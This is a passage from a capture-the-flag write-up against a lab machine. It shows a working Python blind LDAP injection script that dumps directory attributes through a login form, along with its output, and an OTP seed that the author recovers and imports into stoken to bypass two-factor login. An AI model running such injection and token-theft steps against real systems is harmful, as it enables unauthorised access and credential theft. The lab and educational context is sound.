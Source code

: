 ```python
				payload = "*)({}={}".format(attribute, ldapfield + c + "*")
				
				data = {
					"inputUsername": urllib.quote(payload),
					"inputOTP": "12345",
				}

				proxy = {"http": "http://127.0.0.1:8080"}	
				
				time.sleep(0.5)
				r = requests.post("http://ctf.htb/login.php", data=data, proxies=proxy)
				m = re.search(r'<form action="/login.php" method="post" >\s+<div class="form-group row">\s+<div class="col-sm-10">\s+(.*)</div>', r.text)
				if m:
					try:						
						if "Cannot login" in m.group(1):
							ldapfield = ldapfield + c
							keep_going = True
							break
					except IndexError:
						print("Something weird happened")
						exit(1)
			if keep_going == False:
				# Charset rolled over, we're done here
				print("LDAP attribute {} = {}".format(attribute, ldapfield))
				ldapfield = ""
				break

if __name__== "__main__":
	main()
```

Dumping takes a long time because of the sleep timer I added so I don't get blocked:
```
# python ldapdump.py 
LDAP attribute cn = ldapuser
LDAP attribute gidNumber = 
LDAP attribute homeDirectory = 
LDAP attribute loginShell = 
LDAP attribute mail = ldapuser@ctf.htb
LDAP attribute pager = 285449490011357156531651545652335570713167411445727140604172141456711102716717000
```

At last, I found the OTP token: `285449490011357156531651545652335570713167411445727140604172141456711102716717000`

I can use [stoken](https://github.com/cernekee/stoken) to generate OTPs. I just need to import the token first:
```
# stoken import --token=285449490011357156531651545652335570713167411445727140604172141456711102716717000
Enter new password: 
Confirm new password:
```
